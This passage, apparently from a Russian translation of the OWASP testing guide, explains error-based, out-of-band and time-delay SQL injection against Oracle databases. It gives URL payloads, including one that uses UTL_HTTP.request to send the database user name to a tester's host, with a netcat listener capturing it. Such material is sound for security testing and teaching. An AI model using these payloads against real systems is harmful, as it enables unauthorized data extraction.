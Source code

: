 `SELECT * FROM products WHERE id_product=$id_product`

Рассмотрим также скрипт, выполняющий запрос выше:

`http://www.example.com/product.php?id=10`

Вредоносный запрос будет (пример для Oracle 10g):

`http://www.example.com/product.php?id=10||UTL_INADDR.GET_HOST_NAME( (SELECT user FROM DUAL) )--`

В этом примере тестировщик конкатенирует значение 10 с результатом функции `UTL_INADDR.GET_HOST_NAME`. Эта функция Oracle попытается выдать имя хоста переданного ей параметра, который является другим запросом, именем пользователя. Когда база данных ищет имя хоста с именем базы данных пользователя, произойдет сбой и будет выдано сообщение об ошибке, вроде

`ORA-292257: host SCOTT unknown`

Затем тестировщик может манипулировать параметром, переданным функции `GET_HOST_NAME()`, и результат будет показан в сообщении об ошибке.

#### Внеполосные методы эксплуатации

Этот метод полезен, когда тестировщик попадает в ситуацию [слепой SQL-инъекции](https://owasp.org/www-community/attacks/Blind_SQL_Injection), в которой ничего не известно о результате операции. Метод заключается в использовании функций СУБД для выполнения внеполосного соединения и доставки результатов инъекции в составе запроса на сервер тестировщика. Как и методы, основанные на ошибках, каждая СУБД имеет свои собственные функции, которые можно посмотреть в разделах, посвящённых конкретным СУБД.

Рассмотрим следующий SQL-запрос:

`SELECT * FROM products WHERE id_product=$id_product`

Рассмотрим также скрипт, который вызывает запрос выше:

`http://www.example.com/product.php?id=10`

Получаем вредоносный запрос:

`http://www.example.com/product.php?id=10||UTL_HTTP.request(‘testerserver.com:80’||(SELECT user FROM DUAL)--`

В этом примере тестировщик конкатенирует значение 10 с результатом функции `UTL_HTTP.request`. Эта функция Oracle попытается подключиться к `testerserver` и выполнить HTTP-запрос GET, содержащий результат запроса `SELECT user FROM DUAL`. Тестировщик может настроить web-сервер (например, Apache) или использовать инструмент Netcat:

```bash
/home/tester/nc –nLp 80

GET /SCOTT HTTP/1.1
Host: testerserver.com
Connection: close
```

#### Метод эксплуатации с временной задержкой

Метод эксплуатации с временной задержкой полезен, когда тестировщик обнаруживает ситуацию [слепой SQL-инъекции](https://owasp.org/www-community/attacks/Blind_SQL_Injection), в которой ничего не известно о результате операции. Этот метод заключается в передаче запроса-инъекции, и в случае, если условие истинно, тестировщик может отслеживать время, необходимое для ответа сервера. Если есть задержка, тестировщик может предположить, что результат условного запроса является истинным. Этот метод эксплуатации может отличаться от СУБД к СУБД (см. разделы, посвященные конкретным СУБД).
